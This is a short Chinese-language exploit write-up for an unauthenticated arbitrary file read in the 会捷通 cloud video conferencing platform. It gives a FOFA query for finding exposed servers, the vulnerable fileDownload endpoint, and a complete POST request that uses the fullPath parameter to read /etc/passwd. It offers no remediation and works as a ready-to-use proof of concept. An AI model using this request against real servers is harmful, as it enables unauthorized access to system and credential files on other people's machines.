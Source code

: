 ## 会捷通云视讯平台存在未授权任意文件读取漏洞

## 漏洞描述

**会捷通云视讯平台存在未授权任意文件读取漏洞，可通过POST函数进行任意文件读取**

## 漏洞影响

> 会捷通云视讯平台

## FOFA

> body="/him/api/rest/v1.0/node/role

## 漏洞复现

**无需登录、可未授权读取服务器所有文件**

通过访问漏洞url：

```
/fileDownload?action=downloadBackupFile
```

再通过载体“fullPath=”即可进行任意文件读取

```

POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: x.x.x.x
Content-Length: 20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://x.x.x.x
Referer: http://x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
 
fullPath=/etc/passwd
```

![640](resource/会捷通云视讯平台任意文件读取/640.png)